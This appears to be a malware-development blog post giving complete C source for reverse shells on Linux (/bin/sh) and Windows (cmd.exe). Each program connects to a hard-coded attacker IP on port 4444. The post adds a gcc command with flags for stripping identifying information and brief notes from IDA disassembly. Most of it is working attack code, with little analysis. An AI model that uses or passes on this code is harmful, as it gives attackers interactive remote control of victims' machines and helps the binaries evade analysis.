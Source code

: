 ```yaml
---
layout: post
title: 1 MALDEV - Linux/Windows full C Reverse Shell 
category : [Reverse, MALDEV]
tags: reverse
---
```


# Reverse Shell for Linux full C 

## Main C Code 

```c 
#include <stdio.h>                    // Include standard input/output library
#include <sys/socket.h>               // Include socket programming functions
#include <netinet/ip.h>               // Include internet protocol definitions
#include <arpa/inet.h>                // Include internet address manipulation functions
#include <unistd.h>                   // Include POSIX operating system API

int main () {                         
  const char* attacker_ip = "192.168.122.17";  // Define the attacker's IP address to connect back to

  struct sockaddr_in target_address;  // Declare a structure to hold target address information
  target_address.sin_family = AF_INET;         // Set address family to IPv4
  target_address.sin_port = htons(4444);       // Set port number to 4444 (converted to network byte order)
  inet_aton(attacker_ip, &target_address.sin_addr);  // Convert IP string to binary format and store in address structure

  int socket_file_descriptor = socket(AF_INET, SOCK_STREAM, 0);  // Create a TCP socket and get file descriptor

  connect(socket_file_descriptor, (struct sockaddr *)&target_address, sizeof(target_address));  // Connect to the attacker's IP and port

  for (int index = 0; index < 3; index++) {   // Loop through file descriptors 0, 1, and 2 (stdin, stdout, stderr)
       dup2(socket_file_descriptor, index);   // Redirect standard input/output/error to the socket connection
  }
  execve("/bin/sh", NULL, NULL);              // Execute a shell, which will now communicate through the socket
  return 0;                                   // Return statement (never reached due to execve)
}
```
## compiler

```bash
gcc hack2.c -o hack2 -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libgcc -s -Os -fno-ident -fvisibility=hidden -fno-unwind-tables
```

**Flag Explanations:**
- `-s`: Strip all symbol table and relocation information (removes function names, variables, debugging symbols)
- `-ffunction-sections`: Place each function in its own section (enables dead code elimination)
- `-fdata-sections`: Place each data item in its own section (removes unused data)
- `-Wno-write-strings`: Suppress warnings about writing to string literals
- `-fno-exceptions`: Disable exception handling (removes exception tables)
- `-fmerge-all-constants`: Merge duplicate constants into single instances
- `-static-libgcc`: Statically link GCC runtime library (no external dependencies)
- `-Os`: Optimize for size rather than speed (smaller binary)
- `-fno-ident`: Remove compiler identification strings (hides toolchain info)
- `-fvisibility=hidden`: Hide symbols by default (reduces symbol table)
- `-fno-unwind-tables`: Remove unwind tables (no stack trace debugging info)

## Execution

![res](/assets/images/maldev/1/reverseexec.png)

## IDA view

By opening the executable within ida e get the full code pretty well disassembled and decompiled :

![ida](/assets/images/maldev/1/ida.png)

From sys/socket.h we get :

```c 
struct sockaddr {
           sa_family_t     sa_family;      /* Address family */
           char            sa_data[];      /* Socket address */
};
```

In hexa the last two digit are 0x02 and AF_INET value is 0x02 so we could imagine that the rest is to fill the rest of the struct...

Having the source code aside let us understand pretty easily the rest.

# Reverse Shell for Windows full C 

## Main C code 

Just so we have it, here is the code for windows :

```c 
#include <winsock2.h>                 // Include Windows Socket API for network programming
#include <stdio.h>                    // Include standard input/output library
#pragma comment(lib, "w2_32")         // Link against Windows Socket library (ws2_32.lib)

WSADATA socketData;                   // Structure to hold Windows Socket initialization data
SOCKET mainSocket;                    // Socket handle for the network connection
struct sockaddr_in connectionAddress; // Structure to hold target address information
STARTUPINFO startupInfo;              // Structure to configure process startup parameters
PROCESS_INFORMATION processInfo;      // Structure to hold information about created process

int main(int argc, char* argv[]) {
  char *attackerIP = "10.10.1.5";     // Define the attacker's IP address to connect back to
  short attackerPort = 4444;          // Define the port number to connect to

  // Initialize Windows Socket API with version 2.2
  WSAStartup(MAKEWORD(2, 2), &socketData);

  // Create a TCP socket for network communication
  // AF_INET = IPv4, SOCK_STREAM = TCP, IPPROTO_TCP = TCP protocol
  mainSocket = WSASocket(AF_INET, SOCK_STREAM, IPPROTO_TCP, NULL, (unsigned int)NULL, (unsigned int)NULL);

  // Configure the target address structure
  connectionAddress.sin_family = AF_INET;                    // Set address family to IPv4
  connectionAddress.sin_port = htons(attackerPort);          // Set port (convert to network byte order)
  connectionAddress.sin_addr.s_addr = inet_addr(attackerIP); // Convert IP string to binary format

  // Connect to the attacker's IP and port
  WSAConnect(mainSocket, (SOCKADDR*)&connectionAddress, sizeof(connectionAddress), NULL, NULL, NULL, NULL);

  // Initialize startup info structure with zeros
  memset(&startupInfo, 0, sizeof(startupInfo));
  startupInfo.cb = sizeof(startupInfo);                      // Set size of the structure
  startupInfo.dwFlags = STARTF_USESTDHANDLES;                // Flag to use custom standard handles
  // Redirect all standard handles (stdin, stdout, stderr) to the socket
  startupInfo.hStdInput = startupInfo.hStdOutput = startupInfo.hStdError = (HANDLE) mainSocket;

  // Create a new process (cmd.exe) with redirected standard handles
  // This will make cmd.exe communicate through the socket connection
  CreateProcess(NULL, "cmd.exe", NULL, NULL, TRUE, 0, NULL, NULL, &startupInfo, &processInfo);
  exit(0);                                                   // Exit the main process
}
```
## Ida View 

Once again by checking `import` and then following WSASocketA we can easily find the interesting informations : 

![ida](/assets/images/maldev/1/ida1.png)
